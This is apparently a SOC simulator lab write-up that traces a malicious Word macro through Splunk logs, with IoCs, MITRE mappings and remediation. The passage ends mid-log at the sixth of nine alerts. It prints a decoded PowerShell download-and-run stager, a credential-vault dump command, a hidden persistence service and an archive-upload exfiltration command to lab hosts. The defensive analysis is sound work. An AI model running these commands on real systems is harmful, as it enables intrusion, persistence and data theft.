


# Repossessed SOC Simulator

|Category|Difficulty|
|:------:|:--------:|
|   SOC  |  Medium  |

**Skills learned:**
* Querying and analyzing Sysmon and PowerShell logs in Splunk to trace parent-child execution chains to identify malicious activity spawned by a a macro-enabled Word document (.docm)
* Utilizing CyberChef to decode Base64 encoded PowerShell commands
* Mapping observed adversary behavior to the MITRE ATT&CK framework, covering Execution, Credential Access, Stealth, Persistence, Collection, and Exfiltration
* Validating true positive alerts, documenting an attack timeline, compiling actionable Indicators of Compromise (IoCs), and listing remediation strategies in formal reports

## Scenario
TryHatMe Studios is putting the finishing touches on NeuralNexus, its long-awaited platformer about a newly departed soul working through the afterlife's paperwork, one numbered ticket at a time. Launch is close, and the whole office has gone black-and-white stripes to celebrate.

This morning, something odd shows up in the SIEM: a Marketing workstation spawns a process it has no business spawning. Nothing has crashed, nothing looks obviously broken... but the process tree doesn't sit right.

## Objectives
* Identify what caused the unusual activity observed on a workstation
* Determine whether the activity indicates the workstation was communicating with an external party
* Determine how the actor may have gained access to additional systems on the network
* Assess whether any data was accessed or removed from the network

I chose to use **Splunk** SIEM to solve this SOC challenge.

## Alert Investigations

At the start, we only have a few alerts to triage. More alerts will trigger as we continue through the scenario.



By the end of the simulation, we will have triaged **9** total alerts. I have documented the alerts in order by *their ID*, not the order in which they were triaged.

### ID:6352, Suspicious Child Process Spawned, Severity:High

To find the log that triggered this alert, I used the following search query to find all logs from this process (*ai.exe*) and its child processes.

```
* (ProcessId=6304 OR ParentProcessId=6304)
```

The full log that triggered the alert is:
```
 CommandLine: "C:\Program Files (x86)\Microsoft Office\root\vfs\ProgramFilesCommonX64\Microsoft Shared\Office16\AI\ai.exe" "FEA77156-AD12-420B-A641-3B46EBBA133B" "89226371-A46D-4D73-8A1B-6DA74A52D901" "6184" "C:\Program Files (x86)\Microsoft Office\Root\Office16\WINWORD.EXE" "WordCombinedFloatieLreOnline.onnx"
   Company: Microsoft Corporation
   CurrentDirectory: C:\Windows\system32\
   Description: Local Artificial Intelligence (AI) Host for the Microsoft® Windows® Operating System and Platform x64.
   EventCode: 1
   EventType: 4
   FileVersion: 0.20.18.0
   Hashes: MD5=82341DD9F4BF17ED8DB9D2548D0BDB9F,SHA256=C217D74AABFD0DBBF3BDCDE5F077DABDC62EA8D927AA26E96B9AFA9CB3F1FA80,IMPHASH=02FA6BD3A9379F6611BD543EB86D66D8
   Image: C:\Program Files (x86)\Microsoft Office\root\vfs\ProgramFilesCommonX64\Microsoft Shared\Office16\AI\ai.exe
   IntegrityLevel: Medium
   LogName: Microsoft-Windows-Sysmon/Operational
   LogonGuid: {3af46175-c39c-6a8f-e030-9c0000000000}
   LogonId: 0x9C30E0
   OpCode: Info
   OriginalFileName: ai.exe
   ParentCommandLine: "C:\Program Files (x86)\Microsoft Office\Root\Office16\WINWORD.EXE" /n "C:\Users\m.smith\Downloads\Q3_PressKit_Feedback.docm" /o ""
   ParentImage: C:\Program Files (x86)\Microsoft Office\root\Office16\WINWORD.EXE
   ParentProcessGuid: {3af46175-3906-6a90-921d-000000001200}
   ParentProcessId: 6184
   ParentUser: TRYHATME\m.smith
   ProcessGuid: {3af46175-3907-6a90-961d-000000001200}
   ProcessId: 6304
   Product: Local AI
   Sid: S-1-5-18
   SidType: 0
   SourceName: Microsoft-Windows-Sysmon
   TaskCategory: Process Create (rule: ProcessCreate)
   TerminalSessionId: 4
   Type: Information
   User: [ [+]
   ]
   category: Process Create (rule: ProcessCreate)
   datasource: WinEventLog:Microsoft-Windows-Sysmon/Operational
   event_id: 46149
   host: THM-MSMITH.tryhatmestudios.thm
   timestamp: 10/23/2026 01:42:23.163

```

**Reasons why this alert is a false positive:**
Looking at the *ParentCommandLine* field of this log, we can see that winword.exe (Microsoft Word) is opening the file *C:\Users\m.smith\Downloads\Q3_PressKit_Feedback.docm*, which spawned the process **ai.exe**.

Researching more about the process ai.exe, we see:
```
ai.exe is the Artificial Intelligence (AI) Host for Windows, a legitimate background process installed by Microsoft Office and Microsoft 365 applications (including Word, Excel, Outlook, and PowerPoint).
```

Although our investigation will ultimately determine that the underlying file *C:\Users\m.smith\Downloads\Q3_PressKit_Feedback.docm* is malicious, this single process (ai.exe) is expected behavior in the context of opening a Word document.

#### Data for Case Report
*Reason for Classifying as False Positive:*
```
The process ai.exe is expected behavior in the context of opening a Word document. The process is legitimate and part of the Microsoft Office application. 
```

---

### ID:6353, Suspicious Child Process Spawned, Severity: High

To find the log that triggered this alert, I used the following search query to find all logs from this process (*powershell.exe*)*.

```
* ProcessId=8572
```

The full log that triggered the alert is:
```
CommandLine: powershell.exe -NoP -W Hidden -Enc JABzAHQAYQBnAGUAcgAgAD0AIAAiACQAZQBuAHYAOgBUAEUATQBQAFwAcwB2AGMAaABvAHMAdABfAHUAcABkAGEAdABlAC4AcABzADEAIgANAAoAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAEYAaQBsAGUAKAAnAGgAdAB0AHAAOgAvAC8AcABhAHkAbABpAG4AawAtAGMAZABuAC4AdABoAG0AOgA4ADAANgA3AC8AcwB2AGMAaABvAHMAdABfAHUAcABkAGEAdABlAC4AcABzADEAJwAsACAAJABzAHQAYQBnAGUAcgApAA0ACgBTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAAcABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACIALQBOAG8AUAAgAC0AVwAgAEgAaQBkAGQAZQBuACAALQBFAHgAZQBjAHUAdABpAG8AbgBQAG8AbABpAGMAeQAgAEIAeQBwAGEAcwBzACAALQBGAGkAbABlACAAYAAiACQAcwB0AGEAZwBlAHIAYAAiACIAIAAtAFcAaQBuAGQAbwB3AFMAdAB5AGwAZQAgAEgAaQBkAGQAZQBuAA==
   Company: Microsoft Corporation
   CurrentDirectory: C:\Windows\system32\
   Description: Windows PowerShell
   EventCode: 1
   EventType: 4
   FileVersion: 10.0.22621.1635 (WinBuild.160101.0800)
   Hashes: MD5=B94110F627D2BA6C57EB84A0F9575B27,SHA256=B7327B511CBADC9C471F5AA7438E47FFEC3430145C8D23E0E3256183295CA974,IMPHASH=C5E22AE5B5F7F22DF3A5C34E34002F28
   Image: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
   IntegrityLevel: Medium
   LogName: Microsoft-Windows-Sysmon/Operational
   LogonGuid: {3af46175-c39c-6a8f-e030-9c0000000000}
   LogonId: 0x9C30E0
   OpCode: Info
   OriginalFileName: PowerShell.EXE
   ParentCommandLine: "C:\Program Files (x86)\Microsoft Office\Root\Office16\WINWORD.EXE" /n "C:\Users\m.smith\Downloads\Q3_PressKit_Feedback.docm" /o ""
   ParentImage: C:\Program Files (x86)\Microsoft Office\root\Office16\WINWORD.EXE
   ParentProcessGuid: {3af46175-3906-6a90-921d-000000001200}
   ParentProcessId: 6184
   ParentUser: TRYHATME\m.smith
   ProcessGuid: {3af46175-3907-6a90-951d-000000001200}
   ProcessId: 8572
   Product: Microsoft® Windows® Operating System
   Sid: S-1-5-18
   SidType: 0
   SourceName: Microsoft-Windows-Sysmon
   TaskCategory: Process Create (rule: ProcessCreate)
   TerminalSessionId: 4
   Type: Information
   User: [ [+]
   ]
   category: Process Create (rule: ProcessCreate)
   datasource: WinEventLog:Microsoft-Windows-Sysmon/Operational
   event_id: 46148
   host: THM-MSMITH.tryhatmestudios.thm
   timestamp: 10/23/2026 01:42:23.164
```

**Reasons why this alert is a true positive:**
We can immediately assume that this process is at least *suspicious* if not *malicious* because PowerShell is executing an encoded command as seen in the *CommandLine* field. While encoding commands may help in legitimate use cases where scripts have complex syntax, they often used by threat actors to evade defenses.

We can use [CyberChef](https://gchq.github.io/CyberChef/) to decode the command, using the recipe **From Base64 > Remove null bytes**.



The full decoded (and defanged) command is:
```
$stager = "$env:TEMP\svchost_update.ps1"
(New-Object Net.WebClient).DownloadFile('[http]://paylink-cdn.thm:8067/svchost_update.ps1', $stager)
Start-Process powershell.exe -ArgumentList "-NoP -W Hidden -ExecutionPolicy Bypass -File `"$stager`"" -WindowStyle Hidden
```

We have uncovered a **second-stage script** (svchost_update.ps1) that is being downloaded from a remote host (paylink-cdn.thm:8067) and executed with the following flags:
* **-NoP (-NoProfile):** Skips executing user and system profile scripts to speed up the PowerShell startup
* **-W Hidden (-WindowStyle Hidden):** Executes the script in the background without showing a console window
* **-ExecutionPolicy Bypass:** Allows script execution regardless of security restrictions

#### Data for Case Report
*Reason for Escalating the Alert:*
```
There is a compromised user on the network: THM-MSMITH.tryhatmestudios.thm. This employee downloaded a file with embedded macros which then executed and launched a widespread attack across the network.

Code originating from outside the organization has been executed.
```

*Recommended Remediation Actions:*
* Isolate the affected host (THM-MSMITH.tryhatmestudios.thm) from the network to prevent further credential harvesting or lateral movement
* Kill lingering child processes associated with the malicious file (C:\Users\m.smith\Downloads\Q3_PressKit_Feedback.docm)
* Delete the malicious .docm file and the second-stage script (svchost_update.ps1) from the affected host
* Create detection rules to trigger on anomalous executions of credential management tools, especially when spawned by scripting interpeters
* Use Group Policy or MDM to block the PowerShell execution using the flag `-ExecutionPolicy Bypass`

*List of Attack Indicators:*
* Q3_PressKit_Feedback.docm
* "C:\Program Files (x86)\Microsoft Office\Root\Office16\WINWORD.EXE" /n "C:\Users\m.smith\Downloads\Q3_PressKit_Feedback.docm" /o ""
* powershell.exe -NoP -W Hidden -Enc
* TEMP\svchost_update.ps1
* [http://]paylink-cdn.thm:8067/svchost_update.ps1

The activity behind this alert maps to:
* [MITRE ATT&CK T1204.002 - User Execution: Malicious File](https://attack.mitre.org/techniques/T1204/002/)
* [MITRE ATT&CK T1059.001 - Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)
* [MITRE ATT&CK T1027.010 - Obfuscated Files or Information: Command Obfuscation](https://attack.mitre.org/techniques/T1027/010/)
* [MITRE ATT&CK T1105 - Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)

---

### ID:6354, Suspicious Outbound Connection Following Document Execution, Severity:High

To find activity related to this alert, I used the following search query to find all logs from this process (*powershell.exe*).

```
* ProcessId=8572
```

We can find a DNS query log pointed to a malicious domain, followed by an outbound network connection to its IP address:
**DNS query:**
```
EventCode: 22
   EventType: 4
   Image: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
   LogName: Microsoft-Windows-Sysmon/Operational
   OpCode: Info
   ProcessGuid: {3af46175-3907-6a90-951d-000000001200}
   ProcessId: 8572
   QueryName: paylink-cdn.thm
   QueryResults: ::ffff:45.147.230.131;
   QueryStatus: 0
   Sid: S-1-5-18
   SidType: 0
   SourceName: Microsoft-Windows-Sysmon
   TaskCategory: Dns query (rule: DnsQuery)
   Type: Information
   User: [ [+]
   ]
   category: Dns query (rule: DnsQuery)
   datasource: WinEventLog:Microsoft-Windows-Sysmon/Operational
   event_id: 46166
   host: THM-MSMITH.tryhatmestudios.thm
   timestamp: 10/24/2026 01:45:44.186
```

**Outbound network connection:**
```
DestinationIp: 45.147.230.131
   DestinationPort: 8067
   EventCode: 3
   EventType: 4
   Image: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
   Initiated: true
   LogName: Microsoft-Windows-Sysmon/Operational
   OpCode: Info
   ProcessGuid: {3af46175-3907-6a90-951d-000000001200}
   ProcessId: 8572
   Protocol: tcp
   Sid: S-1-5-18
   SidType: 0
   SourceIp: 10.60.10.22
   SourceName: Microsoft-Windows-Sysmon
   SourcePort: 54331
   TaskCategory: Network connection detected (rule: NetworkConnect)
   Type: Information
   User: [ [+]
   ]
   category: Network connection detected (rule: NetworkConnect)
   datasource: WinEventLog:Microsoft-Windows-Sysmon/Operational
   event_id: 46159
   host: THM-MSMITH.tryhatmestudios.thm
   timestamp: 10/24/2026 01:45:43.187
```

**Reasons why this alert is a true positive:**
While triaging alert **ID 6353** we have already discovered that a malicious second-stage script was downloaded from the domain `[http://]paylink-cdn.thm:8067`. The DNS query and outbound connection logs here are part of this attack chain, where the affected host reached out to the malicious domain before the second stage script (svchost_update.ps1) was downloaded.

The activity behind this alert maps to:
* [MITRE ATT&CK T1071.001 - Application Layer Protocol: Web Protocols](https://attack.mitre.org/techniques/T1071/001/)
* [MITRE ATT&CK T1571 - Non-Standard Port](https://attack.mitre.org/techniques/T1571/)

#### Data for Case Report
*Reason for Escalating the Alert:*
```
An internal host has an outbound connection to a known malicious IP/domain.

This alert needs to be escalated as it is part of a single attack chain and relates to other events that require escalation.
```

*Recommended Remediation Actions:*
* Use firewall rules to restrict outbound traffic on non-standard ports, while allowing only business-critical ports
* Use host-based firewall rules to block scripting interpreters from making inbound & outbound network connections
* Implement DNS filtering to block lookups for malicious and/or unauthorized domains before a connection can be attempted

*List of Attack Indicators:*
* [http://]paylink-cdn.thm:8067
* 45.147.230.131:8067

---

### ID:6355, Anomalous Credential Vault Access, Severity:High

To find the exact log that triggered the alert, I used the following search query to pull all logs from the affected host (*THM-MSMITH.tryhatmestudios.thm*) where the timestamp is before the alert's timestamp:

```
* | spath host | search host="THM-MSMITH.tryhatmestudios.thm"| spath timestamp | search timestamp >= "10/23/2026 01:41:29.160"
```

The full log that triggered the alert is:
```
CommandLine: "C:\Windows\Sysnative\vaultcmd.exe" "/listcreds:Windows Credentials"
   Company: Microsoft Corporation
   CurrentDirectory: C:\Windows\system32\
   Description: Vault cmdline Program
   EventCode: 1
   EventType: 4
   FileVersion: 10.0.22621.1 (WinBuild.160101.0800)
   Hashes: MD5=4D2AD9A08F33212EDE3A128E23F00759,SHA256=D76274F883C86EF2B9090E43935D9ADC6B81B35A2A6FA39E37890F80FDFA9B76,IMPHASH=423E299DF33B8039596FF81AE53C9CA4
   Image: C:\Windows\System32\VaultCmd.exe
   IntegrityLevel: Medium
   LogName: Microsoft-Windows-Sysmon/Operational
   LogonGuid: {3af46175-c39c-6a8f-e030-9c0000000000}
   LogonId: 0x9C30E0
   OpCode: Info
   OriginalFileName: VAULTCMD.EXE
   ParentCommandLine: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -NoP -W Hidden -ExecutionPolicy Bypass -File "C:\Users\MC0CD~1.SMI\AppData\Local\Temp\svchost_update.ps1"
   ParentImage: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
   ParentProcessGuid: {3af46175-390a-6a90-991d-000000001200}
   ParentProcessId: 9356
   ParentUser: TRYHATME\m.smith
   ProcessGuid: {3af46175-390c-6a90-9d1d-000000001200}
   ProcessId: 10872
   Product: Microsoft® Windows® Operating System
   Sid: S-1-5-18
   SidType: 0
   SourceName: Microsoft-Windows-Sysmon
   TaskCategory: Process Create (rule: ProcessCreate)
   TerminalSessionId: 4
   Type: Information
   User: [ [+]
   ]
   category: Process Create (rule: ProcessCreate)
   datasource: WinEventLog:Microsoft-Windows-Sysmon/Operational
   event_id: 46167
   host: THM-MSMITH.tryhatmestudios.thm
   timestamp: 10/23/2026 01:42:27.821
```

**Reasons why this alert is a true positive:**
At first glance, this appears to be a legitimate case where a user reads credentials stored in the Windows credential store. However, looking at the **ParentCommandLine** field we see a suspicious PowerShell file being executed: *C:\Users\MC0CD~1.SMI\AppData\Local\Temp\svchost_update.ps1*.

The fact that a PowerShell file is being executed from a user's *Temp* directory is suspicious. Because users are able to create, modify, execute, and delete files within their own Temp directory, it provides attackers a place to store and execute malicious files.

The PowerShell script's name *svchost_update.ps1* is also a red flag. It masquerades itself as related to the legitimate Windows system process **svchost.exe**.

The third reason why this alert should be treated as *true positive* is the full ParentCommandLine that spawned the vaultcmd.exe process:
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -NoP -W Hidden -ExecutionPolicy Bypass -File "C:\Users\MC0CD~1.SMI\AppData\Local\Temp\svchost_update.ps1
```
Here we see the suspicious PowerShell file being executed with the flags *NoP*, *W Hidden*, and *Execution Policy Bypass*. These also hint to this PowerShell file being malicious.
* **-NoP (-NoProfile):** Skips executing user and system profile scripts to speed up the PowerShell startup
* **-W Hidden (-WindowStyle Hidden):** Executes the script in the background without showing a console window
* **-ExecutionPolicy Bypass:** Allows script execution regardless of security restrictions

The activity behind this alert maps to [MITRE ATT&CK T1555.004 - Credentials from Password Stores: Windows Credential Manager](https://attack.mitre.org/techniques/T1555/004/).

#### Data for Case Report
*Reason for Escalating the Alert:*
```
This is part of a larger attack chain and is connected to other alerts that require escalation.
```

*Recommended Remediation Actions:*
* Revoke and rotate credentials for the affected user (TRYHATME\m.smith) and revoke all active Kerberos TGTs and VPN/MFA sessions for the compromised account
* Configure EDR rules to block scripting interpreters from spawning credential-dumping binaries (vaultcmd.exe, cmdkey.exe, reg.exe)
* Pivot to using enterprize-grade password vaults and transition away from saving credentials locally with Windows Credential Manager
* Create detection rules to trigger on vaultcmd.exe, also including execution flags (/listcreds)

*List of Attack Indicators:*
* C:\Users\MC0CD~1.SMI\AppData\Local\Temp\svchost_update.ps1
* powershell.exe -NoP -W Hidden -ExecutionPolicy Bypass -File

---

### ID:6356, Rapid Domain and Host Enumeration from Non-Administrative Host, Severity: High

To find activity related to this alert, I used the following search query to find all logs from this process (*net.exe*).

```
* (ProcessId=9744 OR ParentProcessId=9744)
```

The full log that triggered the alert is:
```
CommandLine: "C:\Windows\system32\net.exe" user /domain
   Company: Microsoft Corporation
   CurrentDirectory: C:\Windows\system32\
   Description: Net Command
   EventCode: 1
   EventType: 4
   FileVersion: 10.0.22621.1 (WinBuild.160101.0800)
   Hashes: MD5=28C604BE558D42A7A999B67219BCE2DB,SHA256=43C411FC62EEE2A3F04B02C2785DAF37D5B26A36171D037855667D8F32C3D142,IMPHASH=6C829877160814FC33B041AB46ABAC59
   Image: C:\Windows\SysWOW64\net.exe
   IntegrityLevel: Medium
   LogName: Microsoft-Windows-Sysmon/Operational
   LogonGuid: {3af46175-c39c-6a8f-e030-9c0000000000}
   LogonId: 0x9C30E0
   OpCode: Info
   OriginalFileName: net.exe
   ParentCommandLine: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -NoP -W Hidden -ExecutionPolicy Bypass -File "C:\Users\MC0CD~1.SMI\AppData\Local\Temp\svchost_update.ps1"
   ParentImage: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
   ParentProcessGuid: {3af46175-390a-6a90-991d-000000001200}
   ParentProcessId: 9356
   ParentUser: TRYHATME\m.smith
   ProcessGuid: {3af46175-3a39-6a90-d91d-000000001200}
   ProcessId: 9744
   Product: Microsoft® Windows® Operating System
   Sid: S-1-5-18
   SidType: 0
   SourceName: Microsoft-Windows-Sysmon
   TaskCategory: Process Create (rule: ProcessCreate)
   TerminalSessionId: 4
   Type: Information
   User: [ [+]
   ]
   category: Process Create (rule: ProcessCreate)
   datasource: WinEventLog:Microsoft-Windows-Sysmon/Operational
   event_id: 46239
   host: THM-MSMITH.tryhatmestudios.thm
   timestamp: 10/23/2026 01:47:27.821
```

**Reasons why this alert is a true positive:**
This is a child process of a malicious script C:\Users\MC0CD~1.SMI\AppData\Local\Temp\svchost_update.ps1 downloaded by user TRYHATME\m.smith.

Although the command `net user /domain` uses a legitimate Windows built-in utility to list all user accounts registered in the current Active Directory domain, attackers use it to enumerate user accounts to identify targets for further attacks (credential dumoing, password spraying, lateral movement).

Looking at other child processes of the *svchost_update.ps1* file execution, we find a log showing further domain enumeration, this time listing all Active Directory domain controllers for the domain *tryhatmestudios.thm*:
```
CommandLine: "C:\Windows\Sysnative\nltest.exe" /dclist:tryhatmestudios.thm
   Company: Microsoft Corporation
   CurrentDirectory: C:\Windows\system32\
   Description: Microsoft® Logon Server Test Utility
   EventCode: 1
   EventType: 4
   FileVersion: 10.0.22621.1635 (WinBuild.160101.0800)
   Hashes: MD5=89CE2A565787CCB3D3FDCA135EA0BD59,SHA256=D0B3AF2AE02A2B7D480CFBE10BE336EE8DA78ADE4C8C233D3FF5DB2EE76AAD2E,IMPHASH=89B8D297AEC9E1FE3CD182351B9AA17E
   Image: C:\Windows\System32\nltest.exe
   IntegrityLevel: Medium
   LogName: Microsoft-Windows-Sysmon/Operational
   LogonGuid: {3af46175-c39c-6a8f-e030-9c0000000000}
   LogonId: 0x9C30E0
   OpCode: Info
   OriginalFileName: nltestrk.exe
   ParentCommandLine: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -NoP -W Hidden -ExecutionPolicy Bypass -File "C:\Users\MC0CD~1.SMI\AppData\Local\Temp\svchost_update.ps1"
   ParentImage: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
   ParentProcessGuid: {3af46175-390a-6a90-991d-000000001200}
   ParentProcessId: 9356
   ParentUser: TRYHATME\m.smith
   ProcessGuid: {3af46175-3a39-6a90-dd1d-000000001200}
   ProcessId: 6012
   Product: Microsoft® Windows® Operating System
   Sid: S-1-5-18
   SidType: 0
   SourceName: Microsoft-Windows-Sysmon
   TaskCategory: Process Create (rule: ProcessCreate)
   TerminalSessionId: 4
   Type: Information
   User: [ [+]
   ]
   category: Process Create (rule: ProcessCreate)
   datasource: WinEventLog:Microsoft-Windows-Sysmon/Operational
   event_id: 46245
   host: THM-MSMITH.tryhatmestudios.thm
   timestamp: 10/23/2026 01:47:27.993
```

The activity behind this alert maps to [MITRE ATT&CK T1087.002 - Account Discovery: Domain Account](https://attack.mitre.org/techniques/T1087/002/).

#### Data for Case Report
*Reason for Escalating the Alert:*
```
Code originating from outside of the organization has been executed, running Active Directory domain enumeration.

This is part of a larger attack where a malicious .docm file (Q3_PressKit_Feedback.docm) was downloaded and its embedded macros executed to drop a malicious .ps1 file (svchost_update.ps1) into the network.
```

*Recommended Remediation Actions:*
* Configure EDR rules to block binaries (net.exe, whoami.exe, ipconfig.exe, arp.exe) when they are spawned by scripting interpreters
* Create detection rules to trigger when user or service accounts execute command-line patterns associated with Active Directory enumeration (net user /domain, /dclist)

*List of Attack Indicators:*
* net user /domain
* C:\Users\MC0CD~1.SMI\AppData\Local\Temp\svchost_update.ps1
* powershell.exe -NoP -W Hidden -ExecutionPolicy Bypass -File

---

### ID:6357, Suspicious Remote Logon and Service Creation, Severity: Critical

I used the following search query searching for the service name (*SvcUpdate*) and the Event Code 4697 for service installation:

```
*  | search "SvcUpdate" EventCode=4697
```

The full log that triggered the alert is:
```
Account_Domain: TRYHATME
   Account_Name: svc-mktshare
   EventCode: 4697
   EventType: 0
   LogName: Security
   Logon_ID: 0x24F6572
   Message: A service was installed in the system.

Subject:
	Security ID:		S-1-5-21-1966530601-3185510712-10604624-1126
	Account Name:		svc-mktshare
	Account Domain:		TRYHATME
	Logon ID:		0x24F6572

Service Information:
	Service Name: 		SvcUpdate
	Service File Name:	cmd.exe /c start /b powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass -File C:\Windows\Temp\svchost_update.ps1
	Service Type: 		0x10
	Service Start Type:	3
	Service Account: 		LocalSystem
   OpCode: Info
   Security_ID: S-1-5-21-1966530601-3185510712-10604624-1126
   Service_Account: LocalSystem
   Service_File_Name: cmd.exe /c start /b powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass -File C:\Windows\Temp\svchost_update.ps1
   Service_Name: SvcUpdate
   Service_Start_Type: 3
   Service_Type: 0x10
   SourceName: Microsoft Windows security auditing.
   Subject_Account_Domain: TRYHATME
   Subject_Account_Name: svc-mktshare
   Subject_Logon_ID: 0x24F6572
   Subject_Security_ID: S-1-5-21-1966530601-3185510712-10604624-1126
   TaskCategory: Security System Extension
   Type: Information
   body: A service was installed in the system.

Subject:
	Security ID:		S-1-5-21-1966530601-3185510712-10604624-1126
	Account Name:		svc-mktshare
	Account Domain:		TRYHATME
	Logon ID:		0x24F6572

Service Information:
	Service Name: 		SvcUpdate
	Service File Name:	cmd.exe /c start /b powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass -File C:\Windows\Temp\svchost_update.ps1
	Service Type: 		0x10
	Service Start Type:	3
	Service Account: 		LocalSystem
   category: Security System Extension
   datasource: WinEventLog:Security
   dest_nt_domain: TRYHATME
   dest_nt_host: THM-SREYES.tryhatmestudios.thm
   event_id: 7589
   host: THM-SREYES.tryhatmestudios.thm
   member_dn: svc-mktshare
   member_id: S-1-5-21-1966530601-3185510712-10604624-1126
   service_name: SvcUpdate
   signature: A service was installed in the system
   src_nt_domain: S-1-5-21-1966530601-3185510712-10604624-1126
   src_subject_security_id: S-1-5-21-1966530601-3185510712-10604624-1126
   start_mode: manual
   timestamp: 10/23/2026 01:49:57.509
   user: svc-mktshare
```

**Reasons why this alert is a true positive:**
The created service (SvcUpdate) is named in a manner to appear as a legitimate Windows service to evade detection.

The service (SvcUpdate) was created by the service account *svc-mktshare* and configured to run the command `cmd.exe /c start /b powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass -File C:\Windows\Temp\svchost_update.ps1`, which launches PowerShell to execute the malicious PowerShell file *svchost_update.ps1*.

The malicious PowerShell script was staged in the user's temporary directory (C:\Windows\Temp\svchost_update.ps1).

Here we see the suspicious PowerShell file being executed with the flags *NoP*, *W Hidden*, and *Execution Policy Bypass*. These also hint to this PowerShell file being malicious.
* **-NoP (-NoProfile):** Skips executing user and system profile scripts to speed up the PowerShell startup
* **NonI (-NonInteractive):** Executes the script without presenting interactive prompts to the user
* **-W Hidden (-WindowStyle Hidden):** Executes the script in the background without showing a console window
* **-ExecutionPolicy Bypass:** Allows script execution regardless of security restrictions

The activity behind this alert maps to [MITRE ATT&CK T1543.003 - Create or Modify System Process: Windows Service](https://attack.mitre.org/techniques/T1543/003/).

#### Data for Case Report
*Reason for Escalating the Alert:*
```
Code originating from outside of the organization has been executed, creating a new Windows service.

This alert relates to others in a larger attack chain that require escalation.

Network credentials (svc-mktshare) have been breached to allow service creation.
```

*Recommended Remediation Actions:*
* Isolate the affected host (THM-SREYES.tryhatmestudios.thm) from the network, to prevent further execution and lateral movement
* Stop and remove the malicious service (SvcUpdate) used as a persistence mechanism
* Remove the malicious payload file utilized by the service (C:\Windows\Temp\svchost_update.ps1)
* Revoke and rotate credentials for the affected service account (svc-mktshare)
* Review the privileges assigned to the affected service acccount (svc-mktshare); service accounts should not have local administrator or service-installation rights
* Use a Group Policy Object (GPO) to limit which users and service accounts have permissions to install or modify Windows services
* Use AppLocker or a Software Restriction Policies to restrict file execution from non-standard paths such as `C:\Windows\Temp\`

*List of Attack Indicators:*
* C:\Windows\Temp\svchost_update.ps1
* cmd.exe /c start /b powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass
* SvcUpdate

---

### ID:6358, Suspicious External Connection Following Archive Creation, Severity:Critical

I used the following search query searching for logs from the affected host (*THM-SREYES.tryhatmestudios.thm*) where the CommandLine field included the archive tool *7z.exe*:

```
* | spath host | search host="THM-SREYES.tryhatmestudios.thm" CommandLine=*7z.exe*
```

The full log that triggered the alert is:
```
CommandLine: "powershell.exe" -NoProfile -WindowStyle Hidden -Command "& "7z.exe" a "C:\ProgramData\CrashReports\crashlogs.7z" "C:\ProgramData\CrashReports\*.log"; Invoke-RestMethod -Uri "https://telemetry-vendor.thm/upload" -Method Post -InFile "C:\ProgramData\CrashReports\crashlogs.7z" -TimeoutSec 10 -ErrorAction SilentlyContinue; Start-Sleep -Seconds 5"
   Company: Microsoft Corporation
   CurrentDirectory: C:\Windows\system32\
   Description: Windows PowerShell
   EventCode: 1
   EventType: 4
   FileVersion: 10.0.22621.1635 (WinBuild.160101.0800)
   Hashes: MD5=0499440C4B0783266183246E384C6657,SHA256=D436E66C0D092508E4B85290815AB375695FA9013C7423A3A27FED4F1ACF90BD,IMPHASH=342A7FD0A3177AE5549A5EEE99F82271
